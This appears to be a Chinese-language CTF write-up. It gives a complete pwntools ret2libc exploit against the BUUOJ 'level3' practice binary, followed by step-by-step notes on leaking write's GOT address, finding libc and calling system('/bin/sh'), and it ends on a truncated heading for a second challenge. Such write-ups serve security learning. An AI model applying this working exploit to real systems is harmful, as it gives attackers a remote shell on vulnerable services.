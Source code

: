 ```python
from pwn import *
from LibcSearcher import *

r=remote('node5.buuoj.cn',26178)
elf=ELF('./level3')

main=0x804844B
write_plt=elf.plt['write']
write_got=elf.got['write']

payload=b'a'*(0x88+4)+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)

r.recvuntil('Input:\n')
r.sendline(payload)
write_addr=u32(r.recv(4))

libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system=libc_base+libc.dump('system')
sh=libc_base+libc.dump('str_bin_sh')

payload=b'a'*(0x88+4)+p32(system)+p32(main)+p32(sh)
r.recvuntil('Input:\n')
r.sendline(payload)

r.interactive()

```

​​ELF​​：加载目标二进制文件，便于获取符号信息
write_plt:用于获得write函数的plt地址，调用writw函数

write_got：获取write函数的GOT地址，该地址存储了write函数在内存中的实际地址（在第一次调用后由动态链接器填充）。

>main：获取主函数的地址，用于在泄露地址后返回主函数重新执行。

>payload_adr去泄漏write函数的真实地址，返回地址尾write_plt，这样会调用write函数，然后后面是main函数，作为write函数返回后的地址，再次执行mian函数，方便
二次调用，然后是调用write函数的参数：fd=1（标准输出），buf=write_got（要泄露的地址），count=4（打印4字节）

>r.recvunti是再收到"Input:\n"时,发送sendline，r.recv(4)接收4字节数据，u32将其转换为整数。

>LibcSearcher：根据write函数泄漏的地址，查出libc的版本

>libcbase:即用泄露的write地址减去libc中write函数的偏移得到libc基址。

>然后通过基址加上libc中system和str_bin_sh（字符串/bin/sh的地址）的偏移得到这两个关键地址

## ciscn_2019_en_2

>url链接：[ciscn_2019_en_2
1](https://buuoj.cn/challenges#ciscn_2019_en_2)
>知识点：ret2libc

![alt text](image-9.png)
放进linux中checksec一下，然后放进IDA
```c
```
